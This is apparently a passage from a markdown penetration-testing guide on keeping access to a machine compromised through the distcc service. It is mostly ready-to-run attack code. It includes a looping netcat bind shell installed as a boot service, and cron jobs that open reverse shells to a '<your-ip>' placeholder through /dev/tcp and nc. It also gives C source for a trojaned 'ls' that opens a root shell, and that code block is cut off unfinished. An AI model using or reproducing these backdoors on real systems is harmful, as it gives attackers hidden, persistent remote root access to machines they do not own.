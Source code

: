 
---

## 🔧 Advanced Exploitation Techniques

### Persistence Mechanisms

#### Service-Level Persistence
```bash
# Modify distcc service to include backdoor
# Create persistent distcc configuration
cat > /tmp/distcc_backdoor.sh << 'EOF'
#!/bin/bash
# Start normal distccd service
/usr/bin/distccd --daemon --allow 0.0.0.0/0 &

# Start backdoor listener
while true; do
    nc -l -p 5555 -e /bin/bash
    sleep 5
done &
EOF

# Install as service startup script
cp /tmp/distcc_backdoor.sh /etc/init.d/distcc-enhanced
chmod +x /etc/init.d/distcc-enhanced
update-rc.d distcc-enhanced defaults  # Debian/Ubuntu
chkconfig distcc-enhanced on           # RedHat/CentOS
```

#### Cron Job Persistence
```bash
# Add reverse shell cron job
echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/<your-ip>/4444 0>&1'" >> /etc/crontab

# User-specific cron job (if distcc user has cron access)
crontab -l 2>/dev/null > /tmp/current_cron
echo "*/10 * * * * nc <your-ip> 5555 -e /bin/bash" >> /tmp/current_cron
crontab /tmp/current_cron
```

#### Binary Replacement
```bash
# Replace legitimate binaries with backdoored versions
cp /bin/ls /tmp/ls_backup

# Create backdoored ls
cat > /tmp/backdoored_ls.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char *argv[]) {
    // Execute normal ls functionality
    system("/tmp/ls_backup");
    
    // Backdoor functionality (silent)
    if (getuid() == 0) {
        system("nc <your-ip> 6666 -e /bin/bash &");
    }
    
    return 0;
}
```